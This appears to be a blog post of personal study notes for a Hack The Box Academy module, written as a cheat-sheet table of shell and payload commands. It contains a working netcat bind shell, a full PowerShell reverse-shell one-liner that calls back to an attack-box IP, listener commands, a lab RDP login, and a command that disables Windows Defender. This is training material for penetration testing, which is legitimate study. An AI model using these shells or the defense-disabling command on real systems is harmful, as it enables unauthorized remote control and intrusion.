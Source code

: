 ```yaml
---
layout:     post
title:      "Shells & Payloads"
subtitle:   "Shells & Payloads"
date:       2024-03-01
author:     "k1r4"
header-img: "img/footprinting.webp"
catalog:    true
tags:
    - shells
    - payloads
---
```


## Shells & Payloads


|**Command**|**Description**|
|-|-|
| `xfreerdp /v:10.129.x.x /u:htb-student /p:HTB_@cademy_stdnt!` | CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol. |
| `env` | Works with many different command language interpreters to discover the environmental variables of a system. This is a great way to find out which shell language is in use. |
| `sudo nc -lvnp <port #>` | Starts a netcat listener on a specified port. |
| `nc -nv <ip address of computer with listener started><port being listened on>` | Connects to a netcat listener at the specified IP address and port. |
| `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f` | Uses netcat to bind a shell `(/bin/bash)` the specified IPaddress and port. This allows for a shell session to be served remotely to anyone connecting to the computer this command has been issued on. |
| `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeNameSystem.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS' + (pwd).Path + '> ';$sendbyte =([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"` | Powershell one-liner used to connect back to a listener that has been started on an attack box. |
| `Set-MpPreference -DisableRealtimeMonitoring $true` | Powershell command using to disable real time monitoring in Windows Defender. |









----

